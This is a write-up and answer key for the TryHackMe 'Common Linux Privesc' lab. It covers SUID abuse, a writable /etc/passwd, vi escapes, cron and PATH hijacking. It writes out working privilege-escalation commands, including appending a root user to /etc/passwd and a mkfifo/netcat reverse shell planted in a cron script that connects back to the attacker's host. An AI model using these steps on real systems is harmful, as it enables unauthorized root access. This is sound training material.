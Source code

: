 # Common Linux Privesc

[Common Linux Privesc](https://tryhackme.com/room/commonlinuxprivesc)

## Summary

1. Privilege Escalation

   1. Going from lower permission to higher permission in system
   2. Exploitation of a vulnerability, design flaw or configuration oversight to gain unauthorized access to resources

2. Direction of Privilege Escalation

   ![Privesc Directions](./privesc.png)

   1. **Horizontal Privilege Escalation**

      1. Take over different user who is on the same privilege level
      2. Allows inheritance of different files and accesses owned by other users

   2. **Vertical Privilege Escalation (Privilege Elevation)**

      1. Gain higher privileges or access with existing low privilege account

3. Enumeration

   1. [**LinEnum**](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

      1. Performs common commands related to privilege escalation.

   2. Transporting `LinEnum` to target machine

      1. `python -m SimpleHTTPServer 8000` to start a Python Web Server on port 8000 and `wget localIp:8000/path/to/LinEnum`, then `chmod +x LinEnum.sh` to make file executable.
      2. Simply copy paste the code.

   3. `LinEnum` output

      1. `Kernel` - kernel information
      2. `Can we read/write sensitive files:` - world-writable files
      3. `SUID Files` - SUID files
      4. `Crontab Contents` - scheduled cron jobs

4. SUID / SGID

   1. SUID: Set owner User ID up on execution
   2. Normal permission: `rwx`
   3. Special permission: `s`
   4. allows the file to run with permissions of whoever the **owner** (e.g. root) is
   5. Can be found using `LinEnum`
   6. Can be found using `find / -perm -u=s -type f 2>/dev/null`

5. `/etc/passwd` file

   1. Stores information about users
   2. Format: `test:x:0:0:root:/root:/bin/bash`
      1. _Username_: used when login
      2. _Password_: `x` character indicates that encrypted password is stored in `/etc/shadow` file.
      3. _UID_: UserId
      4. _GID_: GroupId, stored in `/etc/groups`
      5. _User ID Info_: comments about the user
      6. _Home directory_: absolute path the user will be using when logged in
      7. _Command/shell_: absolute path to a command
   3. Use `openssl passwd -1 -salt <username> <password>` to generate new password hash
   4. add `<username>:<password hash>:0:0:root:/root:/bin/bash` to passwd to create a new root user

6. Escaping binary file

   1. Use `sudo -l` to check what permissions the user has
   2. If there are any binary permissions, use [gtfobins](https://gtfobins.github.io/) to exploit it.

7. Crontab

   1. Cron Daemon: execute commands at specific date / time
   2. `etc/crontab` stores all the cron jobs
   3. When there are scripts running in crontab that are writable to the current user, it can be exploited

8. Exploiting PATH Variable

   1. Rewrite `PATH` so that SUID binaries calls programs written by us in new `PATH` to exploit the system
   2. e.g. if `script` is an SUID binary containing calls to `ls`, we can imitate a new `ls` file to open `/bin/bash` and add the dir containing the new `ls` to the start of `PATH`. Then when `script` is called, a new shell as root will be opened.

## Solutions

1. Get Connected

   1. Deploy and Complete

2. Understanding Privesc

   1. Complete

3. Direction of Privilege Escalation

   1. Complete

4. Enumeration

   1. `ssh user3@ip` -> `password`
   2. `polobox`
   3. `cat /etc/passwd` -> `8`
   4. `cat /etc/shells` -> `4`
   5. `find /home/ 2>/dev/null | grep *.sh` -> `autoscript.sh`
   6. `/etc/passwd`
   7. Complete

5. Abusing SUID/GUID files

   1. `/home/user3/shell`
   2. `./shell` -> Complete
   3. Complete

6. Exploiting Writable `/etc/passwd`

   1. `exit` -> `su user7` -> `password`
   2. `vertical`
   3. `openssl passwd -1 -salt new 123` -> `$1$new$p7ptkEKU1HnaHpRtzNizS1`
   4. `new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`
   5. `echo new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash >> etc/passwd`
   6. `su new` -> `123`

7. Escaping Vi Editor

   1. `exit` -> `su user8` -> `password`
   2. `NOPASSWD`
   3. `sudo vi`
   4. `:!sh`

8. Exploiting Crontab

   1. `exit` -> `su user4` -> `password`
   2. Boot up Host Kali machine
   3. `man msfvenom` -> `-p`
   4. `msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R` on Kali machine
   5. `/home/user4/desktop`
   6. `echo "mkfifo /tmp/vtpw; nc <IP of Kali Machine> 8888 0</tmp/vtpw | /bin/sh >/tmp/vtpw 2>&1; rm /tmp/vtpw" > autoscript.sh` on target machine
   7. `nc -lvp 8888` on Kali machine

9. Exploiting PATH Variable

   1. `exit` -> `su user5` -> `password`
   2. `ls`
   3. `cd tmp`
   4. `echo "/bin/bash" > ls`
   5. `chmod +x ls`
   6. `export OLD_PATH=$PATH` -> `export PATH=/tmp/:PATH`
   7. `cd`
   8. `./script`
   9. Finish-up: `exit` -> `export PATH=$OLD_PATH`

10. Expanding Your Knowledge

    1. Complete
